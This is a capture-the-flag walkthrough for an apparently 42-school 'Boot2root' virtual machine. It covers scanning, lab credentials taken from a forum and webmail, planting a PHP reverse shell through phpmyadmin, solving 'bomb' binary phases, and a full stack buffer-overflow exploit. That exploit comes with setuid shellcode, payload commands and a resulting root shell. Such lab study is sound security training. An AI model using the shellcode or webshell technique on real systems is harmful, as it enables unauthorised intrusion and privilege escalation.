We make network connection in VBox as "Bridge" or "Virtual network"
After it we can scan ourselves with nmap to find Boot2root ip and open ports.



We found web site under this server.
So we scan 80 and 443 with dirb to find directories. It is output:



Now we have three new points: /fonts (http) and /phpmyadmin, /webmail, /forum (https).
- Fonts are not interesting for us
- phpmyadmin request creditnails. We will not brute it((
- webmail same as above.
- forum works and we can find some useful thigs inside.

On form we see theme by lmezard called "Probleme login?".
It's log and we search for some info. Here we have one string, that seems like password,
if we try it to log in forum, we will succeed. Forum login/pass - lmezard:!q\]Ej?*5K5cy*AJ

After it we can try to Contact and now have lmezard's E-mail adress. If we try to use it to auth /webmail, we will succeed again.
/webmail login/pass - laurie@borntosec.net:!q\]Ej?*5K5cy*AJ



In mailbox we have two messages, one of them includes creds for something called "database".
It is /phpmyadmin login/pass root/Fg-'kKXBj87E:aJ$



Now is time for Explotation. In phpmyadmin we can make unlimited SQL queries and it means that we could send a payload into a file.
We only should find place where we have access to write files. But we have this place. Look again at dirb output.
Trying several directories and drop php file: In one of directories var/www/forum/templates_c we have enougth rights.



Ok. Now we need reverse shell, we can generate it in base64 with help of 'https://www.revshells.com/'.
And we drop full code with PHP method base64_decode in p.php, start nc, open p.php in browser, improve our shell with python.



Now we need to explore system. We look for /home directory, there is dir LOOKATME which contains file password. NICE user login/password lmezard:G!@M6f4Eatau{sF"



When we logged as lmezard, we found files in his home directory. 'fun' is tar archive, so it will be little more convvenient, to work with it on local machine.
We just copy 'fun' to /forum/templates_c and use chmod 777 (lol). Now we can download file with wget on local machine.



Then we find a lot pcap files in dir. To deobfuscate it we use sh script. When job is done we use enfile as C-code, compile it and have password, which needed to be cripted with sha-256. hmmm... use sha256 and ssh login/password laurie:330b845f32185747e4f8ca15d40ca59796035c89ea809fb5d30f4da83ecf45a4
NICE



Now we fnally can connect to machine via ssh. We have README, which says we must defuse the bomb and 'bomb'-ELF exutable.
We haven't passion to start binaries named bomb so let's look to strings. We can see all 'phases', that we need to defuse bomb.
We had hint in README, so easily go to stage two. Let's find all passwords with hint. I thought...
But it doesnt work for 2nd level. OK, we download radare2, and here we go.





2nd level. 
We have two simple functions. First, we read six numbers from stdin. If numbers count not equal six, we exlode bomb.
Simply run debugger and watch at cmp instruction. At the end we have 1 2 6 24 120 720



3d level.
Func want two numbers and letter. OKAY. It is only begin. We see a lot of jumps fahrer from start. There is switch-case construction.
It depend from first number value. So we try everything from first condition and we're good.
In the HINT our letter is b, so second group of values is ours. 1 b 214. OK




4th level.
Owh. We're bad. We have recoursive function here. It will be hard. 
We have internet, so we can install ghydra with 'r2pm --ci r2ghydra'.
OKAY. Now we decompile our phase_4 
Simply decompil function and see pritty easy task. Write python script which copy our function.
It's just fibonacci function and we need to get 55 It is 9th number of sequense and answer 9

5th level.
Here we see some tricks with arrays. OKAY. The good solution - copy function in python and after it copy alghoritm.
So we play with script and solve this problem. Answer - opekmq

6th level.
Here we have REALY coplex function. Sowe need a few hours, debugger and patient. We run and rerun this program. 
In we end we have six numbers. Password - 4 2 6 3 1 5

Given setuid binary exploit_me. Lets disassemble it:

    (gdb) set disassembly-flavor intel
    (gdb) disass main
    Dump of assembler code for function main:
    0x080483f4 <+0>:	push   ebp
    0x080483f5 <+1>:	mov    ebp,esp
    0x080483f7 <+3>:	and    esp,0xfffffff0
    0x080483fa <+6>:	sub    esp,0x90
    0x08048400 <+12>:	cmp    DWORD PTR [ebp+0x8],0x1
    0x08048404 <+16>:	jg     0x804840d <main+25>
    0x08048406 <+18>:	mov    eax,0x1
    0x0804840b <+23>:	jmp    0x8048436 <main+66>
    0x0804840d <+25>:	mov    eax,DWORD PTR [ebp+0xc]
    0x08048410 <+28>:	add    eax,0x4
    0x08048413 <+31>:	mov    eax,DWORD PTR [eax]
    0x08048415 <+33>:	mov    DWORD PTR [esp+0x4],eax
    0x08048419 <+37>:	lea    eax,[esp+0x10]
    0x0804841d <+41>:	mov    DWORD PTR [esp],eax
    0x08048420 <+44>:	call   0x8048300 <strcpy@plt>
    0x08048425 <+49>:	lea    eax,[esp+0x10]
    0x08048429 <+53>:	mov    DWORD PTR [esp],eax
    0x0804842c <+56>:	call   0x8048310 <puts@plt>
    0x08048431 <+61>:	mov    eax,0x0
    0x08048436 <+66>:	leave
    0x08048437 <+67>:	ret
    End of assembler dump.

There is unprotected strcpy from command line arguments into buffer, we can abuse that by writing shellcode inside env variable and overwrite return eip address to point on this variable address.
We can use this shellcode:

    \x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80

Assembly of this shellcode will look like this:

    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x17
    int    0x80
    xor    ebx,ebx
    mov    eax,ebx
    mov    al,0x2e
    int    0x80
    xor    eax,eax
    push   eax
    push   0x68732f2f
    push   0x6e69622f
    mov    ebx,esp
    push   eax
    push   ebx
    mov    ecx,esp
    xor    edx,edx
    mov    al,0xb
    int    0x80

First we need to create shellcode env variable:

    zaz@BornToSecHackMe:~$ export SHELLCODE=$(python -c 'print("\x90"*10+"\x31\xdb\x89\xd8\xb0\x17\xcd\x80\x31\xdb\x89\xd8\xb0\x2e\xcd\x80\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x31\xd2\xb0\x0b\xcd\x80")')

Next we need to find offset to eip and SHELLCODE env variable address:

    zaz@BornToSecHackMe:~$ gdb ./exploit_me
    (gdb) b *main+49
    Breakpoint 1 at 0x8048425
    (gdb) run aaaabbbbccccdddd
    Starting program: /home/zaz/exploit_me aaaabbbbccccdddd

    Breakpoint 1, 0x08048425 in main ()
    (gdb) info frame
    Stack level 0, frame at 0xbffff6d0:
    eip = 0x8048425 in main; saved eip 0xb7e454d3
    Arglist at 0xbffff6c8, args:
    Locals at 0xbffff6c8, Previous frame's sp is 0xbffff6d0
    Saved registers:
    ebp at 0xbffff6c8, eip at 0xbffff6cc
    (gdb) x/50x $sp
    0xbffff630:	0xbffff640	0xbffff8ac	0x00000001	0xb7ec3c49
    0xbffff640:	0x61616161	0x62626262	0x63636363	0x64646464
    0xbffff650:	0xbffff700	0xb7fdd000	0x00000000	0xb7e5ec73
    0xbffff660:	0x08048241	0x00000000	0x00c30000	0x00000001
    0xbffff670:	0xbffff897	0x0000002f	0xbffff6cc	0xb7fd0ff4
    0xbffff680:	0x08048440	0x080496e8	0x00000002	0x080482dd
    0xbffff690:	0xb7fd13e4	0x00000016	0x080496e8	0x08048461
    0xbffff6a0:	0xffffffff	0xb7e5edc6	0xb7fd0ff4	0xb7e5ee55
    0xbffff6b0:	0xb7fed280	0x00000000	0x08048449	0xb7fd0ff4
    0xbffff6c0:	0x08048440	0x00000000	0x00000000	0xb7e454d3
    0xbffff6d0:	0x00000002	0xbffff764	0xbffff770	0xb7fdc858
    0xbffff6e0:	0x00000000	0xbffff71c	0xbffff770	0x00000000
    0xbffff6f0:	0x0804820c	0xb7fd0ff4
    (gdb) x/20s *((char**)environ)
    0xbffff8bd:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\061ۉذ\027̀1ۉذ.̀1\300Ph//shh/bin\211\343PS\211\341\061Ұ\v̀"

Shellcode address is 0xbffff8bd, offset from buffer to old eip is 140 bytes.
Now we can perform our exploit:

    zaz@BornToSecHackMe:~$ ./exploit_me $(python -c 'print("a"*140 + "\xbd\xf8\xff\xbf")')
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa����
    # whoami
    root
    #

And in thor acc we have turtle and README. README doesn't tell anything usefull, so we look at file. It's text with directions of tutle. In Mother Russia we did this things it school.ON PAPER. And now We just write python script.

 

